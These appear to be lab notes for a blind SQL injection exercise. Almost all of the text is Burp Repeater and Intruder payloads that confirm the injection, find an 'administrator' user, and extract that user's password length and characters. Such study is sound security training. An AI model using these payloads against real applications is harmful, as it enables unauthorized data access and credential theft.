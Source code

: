 #using burp repeater

#Check if something changes at the page
L8b9m8jxhlzxPxPn'+and+1=1--
L8b9m8jxhlzxPxPn'+and+1=2--

#it's not a mysql server
L8b9m8jxhlzxPxPn'+and+1=1#

#check if there is a administrator username
x'+UNION+SELECT+'a'+FROM+users+WHERE+username='admin'--
x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'--

#using burp intruder
#check the size of the password
x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+length(password)>§1§--

#check the characters of the password
x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+SUBSTRING(password,§1§,1) > '§a§'--

#login
